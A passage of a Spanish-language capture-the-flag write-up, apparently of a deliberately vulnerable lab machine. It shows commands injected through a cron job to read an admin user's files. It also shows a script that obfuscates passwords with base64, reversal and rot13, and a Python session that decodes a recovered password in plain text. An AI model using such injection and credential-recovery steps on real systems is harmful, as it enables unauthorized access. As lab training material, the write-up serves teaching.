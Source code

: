 Nos metemos a la ruta `/tmp` y ejecutamos comandos,  los vemos en el `cronresult`, por ejemplo viendo los archivos `.txt`, obtuvimos estas contraseñas ofuscadas: `=RFn0AKnlMHMPIzpyuTI0ITG` y `mVGZ3O3omkJLmy2pcuTq`.

Esta es la parte de `cronresult` donde obtenemos el código que ofusca contraseñas y el contenido de `/usr/bin` (este ultimo lo recorte por comandos que se pudieran aprovechar): 
```python
executing: /home/admin/cat cryptpass.py && /home/admin/cat whoisyourgodnow.txt && /home/admin/cat cryptedpass.txt && ls /usr/bin 
#Enhanced with thanks to Dinesh Singh Sikawar @LinkedIn
import base64,codecs,sys

def encodeString(str):
    base64string= base64.b64encode(str)
    return codecs.encode(base64string[::-1], 'rot13')

cryptoResult=encodeString(sys.argv[1])
print cryptoResult
[...]
mysql
[...]
passwd
[...]
perl
[...]
php
[...]
python
python2
python2.6
[...]
wget
```

En uno de los intentos de escalación, se encontró esta restricción:
```python
command did not start with /home/admin or /usr/bin
command did not start with /home/admin or /usr/bin
command did not start with /home/admin or /usr/bin
[...]
```

Dado el contenido del script que ofuscó las contraseñas encontradas en los archivos `.txt`, podemos obtenerla en texto claro.
La contraseña escondida en `whoisyourgodnow.txt` la desofuscamos de la siguiente forma:
```python
$python3
Python 3.11.2 (main, Apr 28 2025, 14:11:48) [GCC 12.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import base64, codecs
>>> ofuscada = '=RFn0AKnlMHMPIzpyuTI0ITG'
>>> tira_rot13 = codecs.decode(ofuscada, 'rot13')
>>> reverse_str = tira_rot13[::-1]
>>> original = base64.b64decode(reverse_str).decode()
>>> print(original)
LetThereBeFristi!
>>> 
```
